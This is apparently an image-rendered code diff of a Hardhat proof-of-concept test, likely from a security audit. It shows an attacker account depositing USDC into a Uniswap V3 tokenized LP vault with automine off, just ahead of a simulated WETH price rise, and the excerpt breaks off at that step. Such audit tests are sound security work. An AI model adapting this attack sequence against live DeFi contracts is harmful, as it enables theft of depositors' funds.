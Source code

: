 ```diff
+               const {
+                       factory,
+                       router,
+                       quoter,
+                       weth,
+                       usdc,
+                       samplePool,
+                       usdcUsdOracle,
+                       wethUsdOracle,
+                       uV3TokenizedLp,
+                       creator,
+                       user1,
+                       user2,
+                       user3
+               } = await loadFixture(setupFixture);
+               await initialRebalance(uV3TokenizedLp);
+               await uV3TokenizedLp.autoRebalance(true);
+
+               const [,,,, attacker1, attacker2] = await ethers.getSigners();
+               await usdc.mint(attacker1.address, ethers.utils.parseUnits('10000', 6));
+               await usdc.connect(attacker1).approve(uV3TokenizedLp.address, ethers.constants.MaxUint256);
+               const wethBalanceBefore = await weth.balanceOf(attacker1.address);
+               const usdcBalanceBefore = await usdc.balanceOf(attacker1.address);
+               console.log();
+
+               // 2. User1 deposits some tokens to simulate the real environment
+               console.log(">>>>>>>>>> User1 deposits some tokens to simulate the real environment");
+               await weth.mint(user1.address, ethers.utils.parseUnits('100', 18));
+               await usdc.mint(user1.address, ethers.utils.parseUnits('300000', 6));
+               await weth.connect(user1).approve(uV3TokenizedLp.address, ethers.constants.MaxUint256);
+               await usdc.connect(user1).approve(uV3TokenizedLp.address, ethers.constants.MaxUint256);
+               const wethIsToken0 = weth.address < usdc.address
+               if (wethIsToken0) {
+                       await uV3TokenizedLp.connect(user1).deposit(ethers.utils.parseUnits('100', 18), ethers.utils.parseUnits('300000', 6), user1.address);
+               } else {
+                       await uV3TokenizedLp.connect(user1).deposit(ethers.utils.parseUnits('300000', 6), ethers.utils.parseUnits('100', 18), user1.address);
+               }
+               await hre.network.provider.send('hardhat_mine', ['0x8', '0x10']);
+               await uV3TokenizedLp.autoRebalance(true);
+               await hre.network.provider.send('hardhat_mine', ['0x8', '0x10']);
+               console.log();
+
+               // 3. Attacker1 deposits some USDC in advance
+               console.log(">>>>>>>>>> Attacker1 deposits some USDC in advance");
+               await network.provider.send("evm_setAutomine", [false]);
+               console.log(">> block number before attack: %s", await blockNumber());
+               if (wethIsToken0) {
+                       await uV3TokenizedLp.connect(attacker1).deposit(0, ethers.utils.parseUnits('10000', 6), attacker1.address);
+               } else {
+                       await uV3TokenizedLp.connect(attacker1).deposit(ethers.utils.parseUnits('10000', 6), 0, attacker1.address);
+               }
+               console.log();
+
+               // 4. WETH price increased by 0.5%
+               console.log(">>>>>>>>>> WETH price increased by 0.5%");
```